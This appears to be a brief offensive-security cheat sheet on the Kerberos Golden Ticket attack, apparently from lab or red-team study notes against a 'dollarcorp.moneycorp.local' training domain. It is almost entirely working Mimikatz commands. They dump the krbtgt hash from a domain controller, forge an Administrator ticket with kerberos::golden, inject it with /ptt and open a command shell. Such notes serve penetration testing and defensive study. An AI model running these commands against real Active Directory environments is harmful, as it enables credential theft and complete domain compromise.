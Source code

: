 # Golden Ticket

### Golden Ticket -> NTLM hash of the krbtgt <a href="#golden-ticket-greater-than-ntlm-hash-of-the-krbtgt" id="golden-ticket-greater-than-ntlm-hash-of-the-krbtgt"></a>

sid = domain sid id=500 group=512

```powershell
# Execute mimikatz on DC as Doamin Admin to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcrop-dc

privilege::debug
lsadump::lsa /patch


#On any machine:
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid: /krbtgt: /id: /groups: /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid: /krbtgt: /id: /groups: /startoffset:0 /endin:600 /renewmax:10080 /ptt

misc::cmd
```
